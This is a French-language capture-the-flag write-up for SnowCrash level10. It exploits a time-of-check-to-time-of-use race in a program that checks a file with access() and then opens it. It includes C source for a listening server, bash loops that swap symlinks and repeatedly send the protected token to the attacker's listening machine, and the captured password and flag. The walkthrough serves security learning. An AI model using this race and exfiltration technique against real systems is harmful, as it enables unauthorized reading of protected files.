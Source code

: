 # Level10 - Time of Check to Time of Update Race
Pour résoudre le level10, on a un fichier level10 et un fichier token. level10 utilise un socket pour transmettre le contenu d'un fichier vers le port 6969 de l'IP indiquée en paramètres.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Pour que l'on puisse exploiter ce programme, on va avoir besoin de créer un programme serveur qui va écouter sur le port 6969 de notre VM de travail, et qui va récupérer la data qu'envoie le client depuis la VM SnowCrash.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <unistd.h> /* close */
#include <netdb.h> /* gethostbyname */
#include <errno.h>
#include <stdio.h>

#define INVALID_SOCKET -1
#define SOCKET_ERROR -1
#define closesocket(s) close(s)
#define PORT 6969

typedef int SOCKET;
typedef struct sockaddr_in SOCKADDR_IN;
typedef struct sockaddr SOCKADDR;
typedef struct in_addr IN_ADDR;

int main ()
{
        char buff[2048];
        //Creation du socket
        SOCKET ssocket = socket(AF_INET, SOCK_STREAM, 0);
        if (ssocket == INVALID_SOCKET)
        {
                perror("socket()");
                exit(errno);
        }

        //Creation de l'interface d'ecoute du socket
        SOCKADDR_IN sin = { 0 };

        sin.sin_addr.s_addr = htonl(INADDR_ANY);
        sin.sin_family = AF_INET;
        sin.sin_port = htons(PORT);

        if (bind(ssocket, (SOCKADDR *)&sin, sizeof(sin)) == SOCKET_ERROR)
        {
                perror("bind()");
                exit(errno);
        }

        //Linitation du nombre de connections
        if (listen(ssocket, 5) == SOCKET_ERROR)
        {
                perror("listen()");
                exit(errno);
        }


        SOCKET client_socket;
        while(1)
        {
                SOCKADDR_IN client_sin = { 0 };
                socklen_t clientLength = sizeof(client_sin);
                client_socket = accept(ssocket, (SOCKADDR *)&client_sin, &clientLength);
                if (client_socket == INVALID_SOCKET)
                {
                        perror("accept()");
                        exit(errno);
                }

                //Reception des datas
                int n = 0;
                bzero((void*)buff, sizeof(buff));
                while ((n = recv(client_socket, buff, sizeof(buff) - 2, 0) > 0))
                {
                        printf("%s\0\n", buff);
                        bzero((void*)buff, sizeof(buff));
                }
        }
        closesocket(ssocket);
        closesocket(client_socket);
}
```

On essaie d'envoyer un fichier simple avec `level10`, on reçoit bien son contenu sur notre serveur.
Malheureusement, le programme n'utilise pas de setuid, il n'est donc pas exécuté par flag10, et nous n'avons pas les droits sur le fichier token.

```
-- COTÉ CLIENT --

level10@SnowCrash:~$ ./level10 /tmp/toto 192.168.56.106
Connecting to 192.168.56.106:6969 .. Connected!
Sending file .. wrote file!

level10@SnowCrash:~$ ./level10 token 192.168.56.106
You don't have access to token

-- COTÉ SERVEUR --

.*( )*.
toto
```

En regardant les `strings` du programme, on s'aperçoit que ce dernier utilise la fonction `access`. Un tour sur le man et on peut y lire:
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

On est donc face à un cas de `Time of Check to Time of Update Race`, c'est à dire qu'entre le moment où l'on va vérifier si on a accès au fichier qu'on tente d'envoyer et le moment où on va l'ouvrir pour récupérer son contenu, il faut pourvoir tromper le programme pour lui faire ouvrir notre fichier `token`.

#### Pour cela, on crée deux scripts:

Le premier va venir créer un lien symbolique vers un fichier auquel on a accès, puis va supprimer ce lien et le remplacer par un lien vers notre token. Les deux liens auront le même nom et le même path, ce qui fera croire au programme qu'il ouvre bien le bon fichier.

```
#!/bin/bash
while :
do
        rm -f /tmp/faketoken
        ln /home/user/level10/level10 /tmp/faketoken
        rm -f /tmp/faketoken
        ln /home/user/level10/token /tmp/faketoken
done
```

Le deuxième va simplement envoyer en boucle notre lien au programme `level10`
```
#!/bin/bash
while :
do
/home/user/level10/level10 /tmp/faketoken 192.168.56.106
done
```

On lance notre serveur, et on exécute les deux scripts. Au bout de quelques secondes, on reçoit le contenu de `token` sur notre serveur.

```
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
...
```

On se connecte sur le compte flag10 et on obtient notre token:

```
level10@SnowCrash:/tmp$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

On a notre token: `feulo4b72j7edeahuete3no7c`

